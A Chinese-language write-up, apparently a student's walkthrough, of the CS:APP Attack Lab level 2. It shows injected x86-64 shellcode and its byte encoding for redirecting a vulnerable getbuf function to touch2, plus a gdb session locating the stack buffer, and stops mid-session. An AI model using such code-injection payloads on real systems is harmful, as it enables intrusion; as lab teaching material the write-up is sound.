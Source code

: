 类似的，如果我们需要切换到touch2，除了引导touch2的入口地址0x4017ec外还需要给出参数val，让val和cookie（0x59b997fa）相等。这里需要我们插入代码段，完整做完lab2后已经不难写出如下代码：

```
movl    $0x59b997fa, %edi # 提供val
pushq   0x4017ec          # touch2
retq

```

movl、movq都是mov操作，前者是32位，后者64位，实验给的cookie显然用32位即可，写汇编时注意尾部提行，不然可能会报warning。

现在我们将其编译后再反编译获取其字节码表达形式，注意，这里有个问题是objdump反编译时可能会遇到格式问题，我因为这个原因失败了好几次（默认x86-84格式），最好是手动选择intel或者att格式，前者适用于windows、DOS，后者适用于Linux。

```
l2.o：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	ff 34 25 ec 17 40 00 	pushq  0x4017ec
   c:	c3                   	retq
```

但是我最后还是失败了，我参考了别人成功通过的代码，发现我反汇编后得到的pushq和他们的不一样，所以果断换另外一种不需要pushq的方法，直接将其放到栈上。

```
mov     $0x59b997fa, %rdi # 提供val
retq
```

```
l2.o：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	c3                   	retq
```

我们将这段代码通过getbuf传到rsp-0x28处，再用类似level1的方法跳转到这里执行这段代码。现在整个程序逻辑就比较清晰了，getbuf执行完后进入我们的插入代码中，执行完后进入touch2。

```bash
[root@MiWiFi-R4A-srv target1]# gdb ctarget
GNU gdb (GDB) Red Hat Enterprise Linux 10.2-8.el9
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
...(省略了)
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret    
End of assembler dump.
(gdb) p $rsp
$1 = (void *) 0x5561dca0
(gdb) stepi
14	in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:	mov    %rsp,%rdi
```